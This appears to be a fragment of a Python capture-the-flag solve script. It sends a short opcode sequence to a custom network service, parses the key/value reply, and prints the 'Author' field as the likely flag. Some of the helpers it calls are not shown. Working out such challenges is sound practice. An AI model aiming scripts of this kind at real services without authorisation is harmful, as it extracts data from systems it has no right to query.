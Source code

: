 ```python

def parse_kv_payload(payload: bytes) -> Dict[str, str]:
    """Best-effort parse of a key/value bundle produced by opcode 0x32.

    The server serializes a small structure with fields like "Author", "Comment",
    and "Software" using an internal container format. We conservatively scan the
    payload for printable tokens and map well-known keys to the token that follows.
    """
    tokens = tokenize_printables(payload)
    keys = {b"Author", b"Comment", b"Software"}
    out: Dict[str, str] = {}
    for i, tok in enumerate(tokens):
        if tok in keys and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = tok.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=0.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=0.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
    tag, payload = chunk
    parsed = parse_kv_payload(payload)
    return parsed, payload


def main():
    host = os.environ.get("HOST", "127.0.0.1")
    port = int(os.environ.get("PORT", "4265"))
    io = remote(host, port)
    try:
        kv, raw = exploit_fetch_metadata(io)
        if kv:
            print("Parsed fields:")
            for k in ("Author", "Comment", "Software"):
                if k in kv:
                    print(f"- {k}: {kv[k]}")
            if "Author" in kv:
                print(f"\nAuthor (likely flag): {kv['Author']}")
        else:
            print(f"No parsable KV bundle. Raw chunk ({len(raw)} bytes): {raw.hex()}")
    finally:
        try:
            send_cmd(io, b"\x11")  # close session politely
        except Exception:
            pass
        io.close()


```